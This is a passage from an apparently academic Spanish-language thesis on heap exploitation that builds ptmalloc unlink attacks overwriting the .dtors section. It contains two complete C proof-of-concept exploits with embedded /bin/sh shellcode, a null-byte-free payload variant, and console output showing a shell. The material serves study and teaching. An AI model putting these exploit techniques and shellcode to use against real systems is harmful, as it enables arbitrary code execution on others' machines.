Con lo visto hasta el momento, se obtiene que el \textit{payload} est� definido como en la Figura \ref{fig:payload_1}. Tal y como se puede ver, lo �nico que hay establecido es que el bit menos significativo del campo |size| del segundo fragmento de memoria debe ser 0. Cabe destacar que los campos |prev_size| y |size| del primer fragmento no se pueden controlar ya que no hay modo de sobrescribirlos. \bigskip

\begin{figure}[!htbp]  
    \centering
    \includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_1.eps}   
    \caption{Payload con el campo size a medio definir}
    \label{fig:payload_1}
\end{figure}

Con los datos expuestos en los par�grafos anteriores, se ha conseguido ejecutar la macro \textit{unlink} al ejecutar el primer |free()|. Ahora falta modificar el \textit{payload} para que al ejecutar \textit{unlink}, se escriban los bytes en las direcciones apropiadas de memoria tal y como se explica en el apartado \ref{sec:attack_vector}. \bigskip

El primer dato necesario es la direcci�n del inicio de la secci�n .dtors m�s 4 bytes. De este modo se sobrescribir� la direcci�n del destructor existente en el \textit{exploit}. Todos estos conceptos est�n detallados en el Ap�ndice \ref{ap:II}. Se obtiene pues, que la direcci�n que se busca es 0x08049f1c.\\ 
A esta direcci�n se le han de restar 12 bytes, tal y como se explica en la p�gina \pageref{ref:first_question}, con lo que la direcci�n que se utilizar� finalmente es 0x08049f10. Esta direcci�n debe ser la que se almacene en el campo |fd| del fragmento de memoria que se sobreescribe, o sea |ptr_2|. \bigskip

Por otro lado, se necesita la direcci�n del \textit{shellcode} que se utilizar� a modo de ejecuci�n de c�digo arbitrario. Debido a las m�ltiples protecciones de memoria que existen hoy en d�a, alojar el \textit{shellcode} en una direcci�n de memoria que sea ejecutable no es trivial. Por esta raz�n se utiliza la estrategia planteada en el C�digo \ref{code:chellcode_stratego}. \bigskip

\lstset{language=C, caption=Estrategia para ejecutar el shellcode , label=code:chellcode_stratego}
\begin{lstlisting}
        char shellcode[] = "El shellcode va aqui."

        /* Se obtiene el tamano de las paginas del sistema */
        int pagesize = sysconf(_SC_PAGE_SIZE);
        if ( pagesize == -1) {
                perror("[-] Page size could not be obtained");
                exit(EXIT_FAILURE);
        }
        /* Se obtiene una region de memoria alineada para poder protegerla con mprotect */
        void * real_shell;
        if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
                perror("[+] Aligned memory could not be obtained");
                exit(EXIT_FAILURE);
        }
        /* Se copia el shellcode en la region de memoria ejecutable obtenida con memalign */
        memcpy(real_shell, shellcode, sizeof(shellcode));
        /* Making  shellcode location executable */
        /* Se hace ejecutable la seccion de memoria donde se ubica el shellcode */
        mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
\end{lstlisting}

La estrategia es la misma que la utilizada para sobrescribir la secci�n .dtors y est� ampliamente explicada en el Ap�ndice \ref{ap:II}, as� que no se entrar� en detalles. \\
Gracias al c�digo, se conoce la direcci�n del \textit{shellcode}, v�a el puntero |real_shell|. La direcci�n donde apunta la variable |real_shell| es lo que ha de contener el campo |bk| del fragmento de memoria que se sobreescribe, o sea, |ptr_2|. \bigskip

De este modo el \textit{payload} queda representado por la Figura \ref{fig:payload_2}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_2.eps}   
    \caption{Payload con el campo fd y bk definido}
    \label{fig:payload_2}
\end{figure}

Como se puede ver, el campo |fd| contiene la direcci�n de la secci�n .dtors m�s 4 bytes, menos los 12 bytes justificados en la secci�n \ref{sec:attack_vector}. Por otro lado, el campo |bk| contiene la direcci�n del \textit{shellcode}. \bigskip

Partiendo de la base que el �ltimo dato que queda por concretar es el campo |size| del segundo fragmento y que dicho campo, en el primer |free()| no afecta para nada en la l�gica de ejecuci�n del algoritmo, (dejando a parte el tema ya tratado sobre el bit de menos peso y la ejecuci�n de \textit{unlink}) uno se puede aventurar y ponerle cualquier valor. As� pues, el \textit{payload} final, a falta de saber si funcionar�a con el segundo |free()|, es el retratado en la Figura \ref{fig:payload_3}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_3.eps}   
    \caption{Payload final}
    \label{fig:payload_3}
\end{figure}

Como se puede ver, el campo |size| ahora contiene un 0. Evidentemente, el bit menos significativo del valor 0, es 0 con lo que la macro \textit{unlink} se ejecutar� entrando en la condici�n de la l�nea 21 del C�digo \ref{code:ptmalloc_vulnerable} tal y como ya se ha explicado. \bigskip

\pagebreak

\subsubsection{Construcci�n de la prueba de concepto}
\label{sec:const_pof}

Ahora que parece que el \textit{payload} parece funcional siempre y cuando s�lo se ejecute el primer |free()|\footnote{Las consecuencias del segundo free() con el payload actual aun no han sido estudiadas.}, el C�digo \ref{code:ptmalloc_exploit_1} muestra una prueba de concepto con todos los aspectos detallados en los apartados anteriores. \bigskip

\lstset{language=C, caption=Exploit para el algoritmo ptmalloc , label=code:ptmalloc_exploit_1}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define PAYLOAD_SIZE	531

void world_destruction() __attribute__((destructor));
void build_payload (char *, void *);

char shellcode[]= 	/* jmp 12 + 12 nops */
			"\xeb\x0a\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
			/* shellcode by vlan7 and sch3m4 */
			"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9"
			"\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
			"\x69\x8d\x41\x0b\x89\xe3\xcd\x80";

int main(int argc, char ** argv) {
	
	int status;
	char crafted_data[700] = {0};
	
	
	/* Obtain the page size of the system */
	int pagesize = sysconf(_SC_PAGE_SIZE);
	if ( pagesize == -1) {
		perror("[-] Page size could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Obtain an aligned memory region in order to mprotect it */
	void * real_shell;
	if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
		perror("[+] Aligned memory could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Copy the shellcode to the executable region obtained with memalign */
	memcpy(real_shell, shellcode, sizeof(shellcode));
	/* Making  shellcode location executable */
	mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
	/* Making DTORS section writable */
	mprotect((void*)0x8049000, pagesize, PROT_WRITE);
	/* The payload is built */
	build_payload(crafted_data, real_shell);

	
	char * ptr_1 = (char *) malloc (512);
	char * ptr_2 = (char *) malloc (512);

	memcpy(ptr_1, crafted_data, PAYLOAD_SIZE);

	free(ptr_1);
	//free(ptr_2);	
	
	return 0;
}

void build_payload(char * crafted_data, void * sc_addr) {

	char str_dtor_ptr[5] = {0};
	char * seek = crafted_data;
	
	/* Trash */
	memset(seek, 'A', 516); 
	seek += 516;
	/* size of second freed chunk. 0 value */
	memcpy(seek, "\x00\x00\x00\x00", 4);
	seek += 4;
	/* fd of second freed chunk. dtors_end - 12 */
	memcpy(str_dtor_ptr, "\x10\x9f\x04\x08", 4);
	memcpy(seek, str_dtor_ptr, 4);
	seek += 4;
	/* bk of second freed chunk. Shellcode address */	
	memcpy(seek, &sc_addr, 4);
	seek += 4;
}

void world_destruction() {}
\end{lstlisting}

El c�digo fuente est� formado por tres funciones. La primera es el |main()|, que es la funci�n principal. La funci�n |world_destruction()| es el destructor necesario para que el \textit{shellcode} se ejecute una vez se sobrescriba la secci�n .dtors, tal y como se ha detallado en el Ap�ndice \ref{ap:II}. Por �ltimo, la funci�n |build_payload()| es la encargada de construir el \textit{payload} que se ha definido en el apartado anterior. \bigskip

El c�digo de la funci�n |main()| ya se ha comentado por separado en otros apartados. As� que no tiene sentido hacer hincapi�. \\
Por otro lado, en la funci�n |build_payload()| se puede ver como se contruye el \textit{payload} especificado anteriormente. Un dato a destacar es que todos los datos que se sobrescriben y que no son el campo |size|, |fd| o |bk| del segundo fragmento son irrelevantes. Por esta raz�n, en la l�nea 64 se escriben 516 bytes de basura. Estos bytes llenar�n el b�fer |ptr_1| y sobrescribir� el campo |prev_size| del segundo fragmento. En la l�nea 67 se escribe un 0 el campo |size| del segundo fragmento, en la l�nea 71 se escribe la direcci�n de la secci�n .dtors + 4 - 12\footnote{Destacar que los datos se deben escribir en little endian debido a la arquitectura sobre la que se trabaja} en el campo |fd| del segundo fragmento y en la l�nea 74 se escribe la direcci�n del \textit{shellcode} en el campo |bk|. \bigskip

Aun quedan por destacar tres detalles m�s. \\
El primero es que en la l�nea 53 el segundo |free()| est� comentado debido a que no se han estudiado cuales son sus repercusiones. Hasta el momento, s�lo se ha analizado la ejecuci�n del primer |free()| asegurando que si la macro \textit{unlink} se ejecuta y los punteros |bk| y |fd| contienen los datos explicados, se conseguir� la ejecuci�n de c�digo arbitrario.\\
El segundo detalle es que el \textit{shellcode} tiene una particularidad especial. Tal y como se coment� en el cap�tulo \ref{ref:shellcode_overwrite} en la p�gina \pageref{ref:shellcode_overwrite}, la cuarta operaci�n de la macro \textit{unlink} acabar� sobrescribiendo el octavo byte del \textit{shellcode} con el contenido de |fd|. As� que para que no se sobrescriba el \textit{shellcode}, la primera operaci�n del mismo, l�nea 13, ser� un |jmp 12| seguida de 10 bytes de basura, o sea, un total de 12 bytes. De este modo, el flujo de ejecuci�n del \textit{shellcode} se saltar� los bytes sobrescritos por la �ltima instrucci�n de la macro \textit{unlink} y ejecutar� el \textit{shellcode} de manera correcta.\\
Por �ltimo, y este detalle se debe tener muy en cuenta, el c�digo vulnerable ha sido modificado de tal manera que los datos a copiar en la l�nea 50 por la funci�n |memcpy| ya no vienen dados por la funci�n |strlen()| sino que vienen dados por un valor fijo definido como |PAYLOAD_SIZE|. Esto es muy importante ya que la funci�n |strlen()| deja de contar bytes cuando se encuentra con un byte nulo. En el \textit{payload} que se ha detallado, la funci�n |strlen()| dejar�a de contar bytes antes de sobrescribir el campo |size| del segundo fragmento ya que en el mismo campo |size| se estar�an copiando varios bytes nulos. \bigskip

A continuaci�n se muestra lo que ocurre al compilar y ejecutar el C�digo \ref{code:ptmalloc_exploit_1}.\bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con un solo free(), label=out:pof_1]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof.c -o pof -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

Tal y como se puede ver, se ejecuta el \textit{shellcode} lo que brinda al usuario una l�nea de comandos para ejecutar lo que desee. \bigskip

Finalmente, lo �nico que queda por dilucidar es si descomentando el seguno |free()| el \textit{shellcode} sigue ejecut�ndose. El C�digo \ref{out:pof_2} muestra el cambio a realizar y la ejecuci�n de la nueva prueba de concepto. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con los dos free(), label=out:pof_2]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ sed 's/\/\/free/free/gi' pof.c >> pof2.c
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof2.c -o pof2
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof2 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

Con ''|sed 's/\/\/free/free/gi' pof.c >> pof2.c|'' se crea el archivo pof2.c que ser� igual al archivo pof.c pero la l�nea con el free() comentado se descomentar�. A continuaci�n se compila y ejecuta obteniendo el mismo resultado que en la prueba de concepto anterior. \bigskip

Lo que ocurre cuando se ejecuta el segundo |free()| es que el flujo de ejecuci�n entra en la condici�n de la l�nea 4217 del archivo malloc.c. Con dicha condici�n el algoritmo descubre si el fragmento a liberar cumple las condiciones para almacenarse en un \textit{fastbin}. Debido a que el tama�o del fragmento a liberar es 0 al haber sobrescrito el campo |size|, el fragmento cumple las condiciones y por tanto se almacena como si fuera un \textit{fastbin}. \\
As� pues, si el flujo de ejecuci�n sigue el camino de los \textit{fastbins}, no se encuentra ning�n problema y la prueba de concepto funciona correctamente.

\pagebreak

\subsubsection{Construcci�n del payload sin bytes nulos}

En el apartado anterior se ha construido una prueba de concepto de un modo innovador de manera que en ning�n otro art�culo escrito sobre el tema lo hab�a publicado. Los art�culos que tratan esta materia tales como \cite{VAOSBTEMP}, \cite{WSTAE-Pages169-181} o \cite{HOELI} utilizan la t�cnica que se explicar� a continuaci�n, sin embargo, todos esas publicaciones est�n obsoletas de modo que ninguna de ellas funciona contra el algoritmo \textit{ptmalloc} tal y como est� a d�a de hoy. \\
Todos los art�culos citados est�n basados en el art�culo pionero en la materia \cite{VAOSBTEMP}, sin embargo, con los datos proporcionados por dicho art�culo es imposible llevar a cabo la explotaci�n del algoritmo. \bigskip

En este cap�tulo se muestra una revisi�n de la t�cnica presentada en \cite{VAOSBTEMP} de modo que la explotaci�n del algoritmo sea completamente funcional. \bigskip

Sin embargo, la pregunta m�s evidente es �porqu� revisar la t�cnica de MaXX si con la t�cnica mostrada anteriormente ya se cumpl�an los objetivos? B�sicamente por que con la t�cnica de MaXX es posible evitar el uso de bytes nulos. La problem�tica que introducen los bytes nulos est� ampliamente detallada en \cite{IALEDSESL}, pero en pocas palabras se puede definir que el uso de bytes nulos hace que la copia de bytes en los b�fers termine abruptamente si dicha copia se realiza con funciones enfocadas al tratamiento de cadenas tales como |strcpy()|, |strlen()|, etc. \bigskip

La t�cnica utilizada en este apartado es parecida a la t�cnica detallada en el cap�tulo anterior. Se volver� a sobrescribir la secci�n .dtors con la direcci�n del \textit{shellcode} que se ejecutar�. Sin embargo, esta vez el \textit{payload} ser� diferente. \\
Tal y como ya se ha visto, en el algoritmo \textit{ptmalloc} para descubrir si los fragmentos est�n en uso se utiliza el campo |size| del propio fragmento, pero otra cosa muy importante es el hecho de que para conocer d�nde empiezan los fragmentos de memoria tambi�n se utiliza el campo |size|. Por ejemplo, si se obtiene un fragmento de memoria |p|, el siguiente fragmento de memoria se ubicar� en la direcci�n |p+size|, donde |size| es el tama�o del fragmento |p|.\\
De este modo, si se sobrescribe el campo |size| del segundo fragmento de memoria se puede enga�ar al algoritmo de tal modo que crea que un fragmento est� situado en una direcci�n de memoria en la que se pueda escribir, con el objetivo de crear un fragmento de memoria falso con el que se ejecute la macro \textit{unlink}. \bigskip

En la Figura \ref{fig:payload_sin_nulls} se muestra el \textit{payload} final. Como se puede ver, el \textit{payload} es mucho m�s complejo pero a continuaci�n se detalla el por qu� de cada uno de los par�metros que lo definen. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_sin_nulls.eps}   
    \caption{Payload sin null bytes}
    \label{fig:payload_sin_nulls}
\end{figure}

Empezando de atr�s en adelante, la explicaci�n es mucho m�s intuitiva, as� que se desarrollar� de este modo. \\
El primer valor fuera de lo com�n en el \textit{payload} es el -16\footnote{En realidad, el valor en complemento a 2 es un -15, sin embargo, cuando se eliminen los 3 bits de menor peso para obtener el tama�o del fragmento se obtendr� un -16.}. Aqu� es donde entra en juego la tem�tica del null byte. Lo primero a entender es que con este -16 se hace creer al algoritmo que el siguiente fragmento de memoria se encuentra donde empieza el fragmento 2 ''m�s'' -16 bytes. Evidentemente se podr�a haber utilizado un valor positivo y construir el fragmento de memoria falso 16 bytes por encima del fragmento 2, sin embargo, utilizando un valor negativo se evita la introducci�n de null bytes.\\
Esto se debe a que para representar valores enteros se utiliza una representaci�n conocida como \textit{complemento a 2}\footnote{Para conocer m�s detalles sobre dicha representaci�n, visitar:\\ \url{http://es.wikipedia.org/wiki/Complemento_a_dos}}. Este sistema permite representar valores tanto positivos como negativos utilizando n�meros binarios. Con esta t�cnica se aprovecha el hecho de que la representaci�n de n�meros negativos en complemento a 2 se construye a partir de negar todos los bits del valor que se quiere convertir y sumarle uno. Negando todos los bits del valor a convertir se consigue que los bits m�s significativos del valor tengan sus bits a 1 y no a 0, como ocurre con valores peque�os. \\
A modo de ejemplo, el complemento a 2 el n�mero 8 en una arquitectura de 32 bits se representa como 0x00000008, en cambio, el n�mero -8 se representa como 0xfffffff8. Como se puede ver, el n�mero 8 contiene muchos bytes nulos, mientras que el n�mero -8 no contiene ninguno. \bigskip

Con este -16, cuando se realiza el primer |free()| el flujo del programa acaba en el C�digo \ref{code:ptmalloc_vulnerable} de la p�gina \pageref{code:ptmalloc_vulnerable}. Despu�s de obtenerse el valor para |nextchunk| que es la direcci�n del fragmento 2 y su tama�o, -16, se comprueba si el siguiente fragmento al fragmento 2 est� en uso. Esto se hace a partir de la macro |inuse_bit_at_offset| definida en el C�digo \ref{code:inuse_bit_at_offset_macro}. Esta comprobaci�n lleva a definir el tama�o del fragmento falso con un -8. En estos momentos el -8 no tiene justificaci�n, lo que s� la tiene es que eligiendo un -8 el bit |PREV_INUSE| est� a 0, con lo que la variable |nextinuse| ser� 0 y el algoritmo ejecutar� la macro \textit{unlink} al entrar en la condici�n de la l�nea 21. \\
\underline{De este modo se ha conseguido ejecutar la macro \textit{unlink}} con lo que la secci�n .dtors se habr� sobrescrito con la direcci�n del \textit{shellcode} tal y como se ha explicado en los apartados anteriores. \bigskip

Dando por hecho que ya se ha conseguido la ejecuci�n de c�digo arbitrario, a continuaci�n se explica el por qu� de los dem�s detalles del \textit{payload} en orden de participaci�n en el flujo de ejecuci�n. \bigskip

Despu�s del primer |free()|, se ejecuta el |free()| del segundo fragmento. Al ejecutarse las l�neas 4 y 5 de C�digo \ref{code:ptmalloc_vulnerable} se obtiene la direcci�n del siguiente fragmento a partir del tama�o del fragmento que se est� liberando, o sea, -16. De este modo, la variable |nextchunk| apunta al fragmento de memoria falso y la variable |nextsize| almacena el valor -8. \bigskip

Acto seguido se ejecuta la macro |prev_inuse(p)|. El fragmento |p| es el que tiene un tama�o de -16 bytes, pero tal y como se ha apuntado a pie de p�gina anteriormente, el valor real es un -15 debido a que el �ltimo bit del campo |size| est� a uno. O sea, el bit |PREV_INUSE| est� a 1 con lo que no se entrar� a la condici�n de la l�nea 9 y de este modo se evitar� un nuevo \textit{unlink}. \bigskip

La siguiente instrucci�n relevante es, de nuevo, la de la l�nea 18, que es la macro |inuse_bit_at_offset()|. Del siguiente fragmento al que apunta |nextchunk|, o sea, el siguiente fragmento al fragmento falso, se obtiene su tama�o. Tal y como ya se ha comentado, al fragmento falso se le ha asignado un tama�o de -8 bytes, con lo que el siguiente fragmento estar� a menos -8 bytes a donde apunta |nextchunk|. El campo |size| de este nuevo fragmento falso tiene el bit de menos peso a 1 con lo que no se entrar� a la condici�n de la l�nea 21 ya que la variable |nextinuse| ser� 1. De este modo, de nuevo, se evita volver a ejecutar la macro \textit{unlink}. \bigskip

Con esta explicaci�n se detallan todos los datos del \textit{payload}. Evidentemente, todos los datos que no se han comentado pueden contener cualquier valor, evitando, evidentemente, bytes nulos. \bigskip

Tal y como se ha visto, esta t�cnica es bastante m�s compleja que la anterior, sin embargo, cuando la situaci�n lo requiera se podr� recurrir a ella. Adem�s, el uso de valores negativos o \textit{desbordamientos de enteros} permite evitar condiciones como la que se encuentra en [malloc.c:4217]. \bigskip

\pagebreak

\subsubsection{Construcci�n de la prueba de concepto sin bytes nulos}


Este apartado va a ser mucho menos extenso que el \ref{sec:const_pof}. debido a que el concepto es el mismo con la �nica diferencia que el \textit{payload} ha cambiado. El C�digo \ref{code:ptmalloc_exploit_2} muestra la nueva prueba de concepto. \bigskip

\lstset{language=C, caption=Exploit para el algoritmo ptmalloc sin bytes nulos , label=code:ptmalloc_exploit_2}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define VULN 		"./vuln"
#define PAYLOAD_SIZE	531

void world_destruction() __attribute__((destructor));
void build_payload (char *, void *);

char shellcode[]= 	/* jmp 12 + 12 nops */
			"\xeb\x0a\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
			/* shellcode by vlan7 and sch3m4 */
			"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9"
			"\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
			"\x69\x8d\x41\x0b\x89\xe3\xcd\x80";

int main(int argc, char ** argv) {
	
	int status;
	char crafted_data[700] = {0};
	
	
	/* Obtain the page size of the system */
	int pagesize = sysconf(_SC_PAGE_SIZE);
	if ( pagesize == -1) {
		perror("[-] Page size could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Obtain an aligned memory region in order to mprotect it */
	void * real_shell;
	if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
		perror("[+] Aligned memory could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Copy the shellcode to the executable region obtained with memalign */
	memcpy(real_shell, shellcode, sizeof(shellcode));
	/* Making  shellcode location executable */
	mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
	/* Making DTORS section writable */
	mprotect((void*)0x8049000, pagesize, PROT_WRITE);
	/* The payload is built */
	build_payload(crafted_data, real_shell);

	
	char * ptr_1 = (char *) malloc (512);
	char * ptr_2 = (char *) malloc (512);

	memcpy(ptr_1, crafted_data, PAYLOAD_SIZE);

	free(ptr_1);
	free(ptr_2);	
	
	return 0;
}

void build_payload(char * crafted_data, void * sc_addr) {

	char str_dtor_ptr[5] = {0};
	char * seek = crafted_data;
	
	/* Trash */
	memset(seek, '@', 492); 
	seek += 492;
	/* Size of the second fake chunk */
	/* if the PREV_INUSE bit is set, the unlink is not triggered */
	/* in the second free()*/
	memcpy(seek, "\x41@@@", 4);
	seek += 4;
	/* prev_size of fake chunk. */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* size of fake chunk. PREV_INUSE bit unset. -8 value */
	/* triggers unlink in the nextinuse of the first free() */
	memcpy(seek, "\xf8\xff\xff\xff", 4);
	seek += 4;
	/* fd of fake chunk */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* bk of fake chunk */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* prev_size of second freed chunk. */
	memcpy(seek, "@@@@", 4);
	seek += 4;
	/* size of second freed chunk. Hexadecimal -16 value */
	/* PREV_INUSE bit set. Avoid consolidate backward (unlink) on 2nd free */
	memcpy(seek, "\xf1\xff\xff\xff", 4);
	seek += 4;
	/* fd of second freed chunk. dtors_end - 12 */
	memcpy(str_dtor_ptr, "\x10\x9f\x04\x08", 4);
	memcpy(seek, str_dtor_ptr, 4);
	seek += 4;
	/* bk of second freed chunk. Shellcode address */	
	memcpy(seek, &sc_addr, 4);
	seek += 4;
}

void world_destruction() {}
\end{lstlisting}

Debido a la complejidad del c�digo o, al menos, del \textit{payload}, �ste est� mucho m�s comentado, detallando el por qu� de cada una de sus partes. Los comentarios son una especie de resumen del apartado anterior. \bigskip

Al ejecutar el c�digo, del mismo modo que con el c�digo anterior, se obtiene una l�nea de comandos: \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto sin bytes nulos, label=out:pof_3]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof_without_null_bytes.c -o pof_without_null_bytes -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof_without_null_bytes 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

\pagebreak

\subsection{Evoluci�n de la t�cnica}

Por otro lado, ser�a correcto justificar porqu� las t�cnicas detalladas en los art�culos citados anteriormente ya no funcionan. \\
La metodolog�a que se explicaba en ellos era muy parecida a la detallada en el cap�tulo anterior, sin embargo, a parte de otras diferencias m�s sutiles, en esos art�culos en vez de sobrescribir el campo |size| del segundo fragmento con un -15 (a efectos pr�cticos el tama�o es de -16 bytes) lo sobrescrib�an con un -4, en hexadecimal, 0xfffffffc. \\
Actualmente, si se utiliza dicho valor, la macro \textit{unlink} se ejecuta en el primer |free()|, sin embargo, cuando se est� liberando el segundo fragmento de memoria, el que contiene el -4 en el campo |size|, el programa termina su ejecuci�n recibiendo un |SIGSEGV|, o sea, realizando una violaci�n de segmento cuando se ejecuta la macro |arena_for_chunk()| en [malloc:3405]. \bigskip

Esto se debe a que el valor -4, en hexadecimal es 0xfc lo que en binario es 1111 0110. El segundo conjunto de 4 bits contiene el bit |NON_MAIN_ARENA| a 1. Este dato es relevante debido a que la macro |arena_for_chunk()| se define del siguiente modo: \bigskip

\lstset{language=C, caption=Macro arena\_for\_chunk() , label=code:arena_for_chunk}
\begin{lstlisting}
#define arena_for_chunk(ptr) \
 (chunk_non_main_arena(ptr) ? heap_for_ptr(ptr)->ar_ptr : &main_arena)
\end{lstlisting}

Se comprueba si el fragmento de memoria pertenece al arena principal a partir de la macro |chunk_non_main_arena()|, definida como: \bigskip

\lstset{language=C, caption=Macro chunk\_non\_main\_arena() , label=code:chunk_non_main_arena}
\begin{lstlisting}
/* size field is or'ed with NON_MAIN_ARENA if the chunk was obtained
   from a non-main arena.  This is only set immediately before handing
   the chunk to the user, if necessary.  */
#define NON_MAIN_ARENA 0x4

/* check for chunk from non-main arena */
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)
\end{lstlisting}

Como se puede ver, la macro devolver� un valor diferente a uno si el campo |size| del fragmento de memoria tiene el bit |NON_MAIN_ARENA| a 1. \\
Tal y como ya se ha dicho, si el campo size contiene un -4, el bit |NON_MAIN_ARENA|, que en binario es 0100, estar� a uno con lo que la condici�n ser� positiva y se ejecutar� la macro |heap_for_ptr()| en vez de devolver la direcci�n del arena principal tal y como deber�a ocurrir. \\
Acto seguido, cuando se obtiene el puntero al arena a trav�s de dicha macro, se intenta obtener el campo |size|, pero debido a que dicho puntero no es correcto, se acaba incurriendo en una violaci�n de segmento. \bigskip

